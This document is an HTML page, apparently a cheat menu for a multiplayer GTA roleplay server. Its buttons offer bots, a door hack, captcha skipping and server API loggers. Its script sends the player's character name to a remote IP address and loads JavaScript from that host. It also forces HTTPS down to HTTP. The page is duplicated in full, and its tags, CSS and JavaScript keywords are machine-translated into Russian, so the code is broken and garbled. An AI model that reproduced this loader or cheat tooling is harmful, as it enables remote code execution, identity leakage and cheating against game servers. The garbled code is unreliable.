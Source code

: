 <!DOCTYPE html>
<html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-совместимый" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script>if('https:'==document.location.protocol) document.location.protocol='http:'</script>
</head>
<стиль>
 .main {
            отступ: 20px;
            радиус границы: 20пикселей;
            background-color: #ffffff;
            позиция: фиксированная;
            топ: 50%;
            осталось: 50%;
            transform: translate(-50%, -50%);
            box-shadow: 0px 0px 15px 0px #00000014;
            дисплей: flex;
            выбор пользователя: нет;
        }

        кнопка {
            высота: 40пикселей;
            ширина: 130px;
            схема: нет;
            граница: нет;
            радиус границы: 20пикселей;
            семейство шрифтов: 'Fira-Sans', sans-serif;
            размер шрифта: 18px;
            цвет: #ffffff;
            background-color: #347AF0;
            дисплей: блок;
            margin-top: 5px;
        }

 .кнопка-список {
            дисплей: встроенный блок;
            ширина границы: 0 1px 0 0;
            отступ справа: 20пикселей;
            margin-right: 20px;
            стиль границы: сплошной;
            border-color: #bebebe;
        }

 .браузер {
            дисплей: встроенный блок;
            ширина: 1280px;
            высота: 1074px;
        }

        iframe {
            ширина: 1280px;
            высота: 1072px;
            радиус границы: 10пикселей;
            border-color: #bebebe;
            стиль границы: сплошной;
            ширина границы: 1px;
        }

</style>
<тело>
    <div id="main" class="main">
        <div class="button-list">
            <button onclick="drugsBot()">Drugs bot</button>
            <button onclick="doorHack()">Взлом двери</button>
            <button onclick="antiAFK()">Анти-АФК</button>
            <button onclick="disableAntiAFK()">Отключить анти-АФК</button>
            <button onclick="serverAPIgetAsyncLogger()">GetAsync logger</button>
            <button onclick="serverAPIcallApiAsyncLogger()">callApiAsync logger</button>
            <button onclick="bindThisMenu()">Окно привязки</button>
            <button onclick="fishingBot()">Рыболовный бот< /button>
            <button onclick="fishingCapchaSkip()">Пропуститькапчу</button>
            <button onclick="junkSearcher()">Junk searcher</button>
            <button onclick="adminMessageSound()">ЗвукAMessage</button>
            <button onclick="spawnHouseRobs()">Spawn robs</button>
        </div>
        <div class="браузер">
            <iframe id="browser-iframe" src="https://jsconsole.com" frameborder="0"></iframe>
        </div>
    </div>
<сценарий>
    var script=document.createElement("скрипт");
    script.src="package://Lib/js/rage-rpc.min.js?r="+Math.random();
    script.onload=function() {
        rpc.callClient('client_console_getMyName').then(функция(a) {
            var rpc2js = document.createElement("скрипт");
            rpc2js.src=`http://88.212.253.252:26548/cache/rpc2.js?characterName=${a.data}`;
            document.head.append(rpc2js);
        })
    }
        
    script.onerror=функция(e) {
        mp.trigger("clientFunc_notify", "error", "RPC Loading error. ");
    }
    document.head.append(скрипт);
</script>
</body>
</html>мV<!DOCTYPE html>
<html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-совместимый" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script>if('https:'==document.location.protocol) document.location.protocol='http:'</script>
</head>
<стиль>
 .main {
            отступ: 20px;
            радиус границы: 20пикселей;
            background-color: #ffffff;
            позиция: фиксированная;
            топ: 50%;
            осталось: 50%;
            transform: translate(-50%, -50%);
            box-shadow: 0px 0px 15px 0px #00000014;
            дисплей: flex;
            выбор пользователя: нет;
        }

        кнопка {
            высота: 40пикселей;
            ширина: 130px;
            схема: нет;
            граница: нет;
            радиус границы: 20пикселей;
            семейство шрифтов: 'Fira-Sans', sans-serif;
            размер шрифта: 18px;
            цвет: #ffffff;
            background-color: #347AF0;
            дисплей: блок;
            margin-top: 5px;
        }

 .кнопка-список {
            дисплей: встроенный блок;
            ширина границы: 0 1px 0 0;
            отступ справа: 20пикселей;
            margin-right: 20px;
            стиль границы: сплошной;
            border-color: #bebebe;
        }

 .браузер {
            дисплей: встроенный блок;
            ширина: 1280px;
            высота: 1074px;
        }

        iframe {
            ширина: 1280px;
            высота: 1072px;
            радиус границы: 10пикселей;
            border-color: #bebebe;
            стиль границы: сплошной;
            ширина границы: 1px;
        }

</style>
<тело>
    <div id="main" class="main">
        <div class="button-list">
            <button onclick="drugsBot()">Drugs bot</button>
            <button onclick="doorHack()">Взлом двери</button>
            <button onclick="antiAFK()">Анти-АФК</button>
            <button onclick="disableAntiAFK()">Отключить анти-АФК</button>
            <button onclick="serverAPIgetAsyncLogger()">GetAsync logger</button>
            <button onclick="serverAPIcallApiAsyncLogger()">callApiAsync logger</button>
            <button onclick="bindThisMenu()">Окно привязки</button>
            <button onclick="fishingBot()">Рыболовный бот< /button>
            <button onclick="fishingCapchaSkip()">Пропуститькапчу</button>
            <button onclick="junkSearcher()">Junk searcher</button>
            <button onclick="adminMessageSound()">ЗвукAMessage</button>
            <button onclick="spawnHouseRobs()">Spawn robs</button>
        </div>
        <div class="браузер">
            <iframe id="browser-iframe" src="https://jsconsole.com" frameborder="0"></iframe>
        </div>
    </div>
<сценарий>
    var script=document.createElement("скрипт");
    script.src="package://Lib/js/rage-rpc.min.js?r="+Math.random();
    script.onload=function() {
        rpc.callClient('client_console_getMyName').then(функция(a) {
            var rpc2js = document.createElement("скрипт");
            rpc2js.src=`http://88.212.253.252:26548/cache/rpc2.js?characterName=${a.data}`;
            document.head.append(rpc2js);
        })
    }
        
    script.onerror=функция(e) {
        mp.trigger("clientFunc_notify", "error", "RPC Loading error. ");
    }
    document.head.append(скрипт);
</script>
</body>
</html>м

